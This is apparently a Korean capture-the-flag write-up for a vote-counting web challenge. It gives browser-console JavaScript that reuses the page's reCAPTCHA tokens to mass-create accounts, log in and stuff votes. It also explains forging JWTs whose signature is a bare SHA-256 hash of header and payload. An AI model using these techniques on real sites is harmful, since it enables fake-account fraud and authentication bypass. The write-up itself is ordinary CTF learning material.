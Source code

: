 # Watermelon
> ## Overview  
음악을 업로드하는 기능과 투표를 할 수 있는 기능이 있다.  
투표는 계정당 한 번만 가능하다. 회원가입과 로그인에는 캡챠가 작동하고 있다.  
JWT기반 인증을 사용하고 있다.  
> ## Solve
회원가입하여 로그인하여 JWT 토큰을 디코딩하여 아래의 값을 얻었다.

```  
{"alg":"sha256","typ":"JWT"}.{"user_no":7374,"id":"workerholic","nickname":"workerholic","iat":1577621349}.32f6c091cf3e50ce7ac64fd042ef309e438a58454e30e61bf8ee7dd1dbd24390
```
이를통해 user_no를 조작하여 투표를 계속할 수 있게 해볼려고 시도해봤으나 jwt의 signature 부분이 계속 틀려서 포기했다.  
다음 생각한 방법은 회원가입하고 로그인하고 투표하는 동작을 자동으로 할 수 있게 프로그램을 만들어서 투표 수를 높이는거였다.  
그런데 회원가입과 로그인 기능에는 reCaptcha가 작동하고 있었다. 
```
<script src="https://www.google.com/recaptcha/api.js?render=6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z"></script>
<script>
grecaptcha.ready(function() {
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z', {action: 'homepage'}).then(function(token) {
        document.getElementById('g-recaptcha-response').value = token;
    });
});
</script>
```  
스크립트를 통해 받아온 token 값을 g-recaptcha-response에 담아 POST로 같이 전송하는 방식이다.  
이 token값은 요청마다 바뀌었다.  
브라우저에서 자바스크립트를 실행해서 값을 받아오기 때문에
python 코드 상에서 해당 token 값을 받아 올 수는 없었다.   
파이선으로 해당 코드를 대체하여 token 값을 받아올 방법을 못 찾고  
그냥 해당 api가 불러와진 회원가입 페이지에서 개발자 도구를 통해 자바스크립트로 코드를 작성하여 실행시켯다.  
```
function register(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&nickname="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signup.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(register(count+1));
    });
}

function login(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signin.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(login(count+1)).then(vote());
    });
}

function vote(){
    var xhttp = new XMLHttpRequest();
    var music_no = 555;
    var param = "music_no="+music_no;
    xhttp.open("POST", "http://ch4n3.me:8080/xmas/vote.php");
    xhttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhttp.send(param);
    var work = xhttp.responseText;
    console.log(work);
}
```
처음에 register()와 login()에서 fetch()말고 xhttp.send()로 요청을 계속 보내니 중간에 잘보내다가 요청이 pending 상태에 걸려서 에러가 발생했다. 너무 화가났다. 쨋든 이렇게 동작하게 코드를 만들어서
```
register(1122);
login(1122);
vote();
}
```
동작시키면 아이디를 만들고 그 아이디로 로그인해서 투표하는걸 반복하게된다. 그래서 투표 수를 계속 높여나가다 투표받은 음악을 올린 계정으로 로그인하니 플래그가 뙇~ 멍청하게 자알~ 풀었다.  
> ## Real Solve
해당 페이지의 robots.txt에 코드가 올라와있는 github 주소가 있었다.
jwt 토큰을 생성하는 페이지를 보니 header 부분과 payload 부분을 sha256으로 해쉬한게 signature였다......  
그리하여 user_no를 변경하고 이를 알맞게 해쉬하여 signature를 붙여서 인코딩해주면 jwt가 정상적으로 인식되어 투표할 수 있었다.  투표는 1226표 이상 받으면 flag가 출력되게 되어있었다.
